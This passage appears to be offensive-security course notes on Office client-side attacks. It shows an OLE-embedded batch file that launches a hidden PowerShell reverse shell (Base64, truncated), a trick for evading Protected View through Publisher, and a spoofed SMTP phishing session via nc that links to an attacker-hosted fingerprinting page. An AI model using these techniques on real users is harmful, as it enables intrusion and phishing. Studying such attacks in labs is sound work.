 We must save the containing document as either **`.docm`** or the older **`.doc`** format, which supports embedded macros, but must avoid the **`.docx`** format, which does not support them.
### Object Linking and Embedding
Another popular client-side attack against Microsoft Office abuses [Dynamic Data Exchange (DDE)](https://learn.microsoft.com/en-us/windows/win32/dataxchg/about-dynamic-data-exchange?redirectedfrom=MSDN) to execute arbitrary applications from within Office documents, but this has been [patched since December of 2017](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/ADV170021).

However, we can still leverage [Object Linking and Embedding (OLE)](https://en.wikipedia.org/wiki/Object_Linking_and_Embedding) to abuse Microsoft Office's document-embedding feature. In this attack scenario, we are going to embed a Windows batch file inside a Microsoft Word document.  

Batch file launching reverse shell (execution of PowerShell with a Base64 encoded command):
```bat
START powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBj....
```
Next, we will include the above script in a Microsoft Word document. Open Microsoft Word, create a new document, navigate to the *Insert* ribbon, and click the *Object* menu. Here, we will choose the *Create from File* tab and select our newly-created batch script, `launch.bat`.
After embedding the updated batch file, double-clicking it results in a working reverse shell.
### Evading Protected View
This Microsoft Word document is highly effective when served locally, but when served from the Internet, say through an email or a download link, we must bypass another layer of protection known as [Protected View](https://support.office.com/en-us/article/what-is-protected-view-d6f09ac7-e6b9-4495-8e43-2bbcdbcb6653), which disables all editing and modifications in the document and blocks the execution of macros or embedded objects.  

Like Microsoft Word, Microsoft Publisher allows embedded objects and ultimately code execution in exactly the same manner as Word and Excel, but will not enable Protected View for Internet-delivered documents. We could use the tactics we previously applied to Word to bypass these restrictions, but the downside is that Publisher is less frequently installed than Word or Excel. Still, if your fingerprinting detects an installation of Publisher, this may be a viable and better vector.

## Phishing Emails
### Fingerprinting
Sending a mail using **`nc`**:
```sh
nc -C 192.168.247.55 25		# Send CRLF as line-ending
```
Then chat with the smtp server in the interactive view:
```sh
220 VICTIM Microsoft ESMTP MAIL Service, Version: 10.0.17763.1697 ready at  Sun, 23 Oct 2022 06:08:04 -0400
HELO victim
250 VICTIM Hello [192.168.119.247]
MAIL FROM:olynch@victim
250 2.1.0 olynch@victim....Sender OK
RCPT TO:lhale@victim
250 2.1.5 lhale@victim 
DATA
.354 Start mail input; end with <CRLF>.<CRLF>
From: olynch@victim                                                                                                            
To: lhale@victim
Subject: job application
job application for this company.                                                                                     
Here there is my resumee: http://192.168.119.247/fp/fingerprint.html                                                              .     
.
```
